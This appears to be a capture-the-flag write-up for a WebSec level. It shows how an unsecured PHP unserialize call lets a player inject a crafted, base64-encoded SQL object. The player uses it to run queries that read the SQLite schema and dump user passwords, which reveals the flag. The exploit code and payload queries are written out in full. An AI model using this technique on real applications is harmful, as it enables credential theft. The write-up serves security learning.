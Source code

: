 ```yaml
---
layout: default
title: level04
---
```


Here there is an unsecured `unserialize` function, which can let us inject our own `SQL` object and then execute our malicious queries.

```php
<?php
class SQL {
    public $query = "SELECT username FROM users WHERE id=";
    public $conn;
    public function __construct() {
    }
    
    public function connect() {
        $this->conn = new SQLite3 ("database.db", SQLITE3_OPEN_READONLY);
    }

    public function SQL_query($query) {
        $this->query = $query;
    }

    public function execute() {
        return $this->conn->query ($this->query);
    }

    public function __destruct() {
        if (!isset ($this->conn)) {
            $this->connect ();
        }
        
        $ret = $this->execute ();
        if (false !== $ret) {    
            while (false !== ($row = $ret->fetchArray (SQLITE3_ASSOC))) {
                echo '<p class="well"><strong>Username:<strong> ' . $row['username'] . '</p>';
            }
        }
    }
}

$sql = new SQL();
echo base64_encode(serialize($sql));
?>
```
Let's examine the structure of the table:

- Request
> `Select SQL FROM sqlite_master; -- `

- Answer:
> `CREATE TABLE users(id int, username varchar, password varchar)`

Let's get password as username, because this is how it fetchs the results
```php
$ret = $this->execute ();
        if (false !== $ret) {    
            while (false !== ($row = $ret->fetchArray (SQLITE3_ASSOC))) {
                echo '<p class="well"><strong>Username:<strong> ' . $row['username'] . '</p>';
            }
        }
```

- Request
> `Select password as username from users; -- `
- Answer:
> `WEBSEC{9abd8e8247cbe62641ff662e8fbb662769c08500}`

Yay, the FLAG is found inside the passwords

**Flag:** ***`WEBSEC{9abd8e8247cbe62641ff662e8fbb662769c08500}`*** 
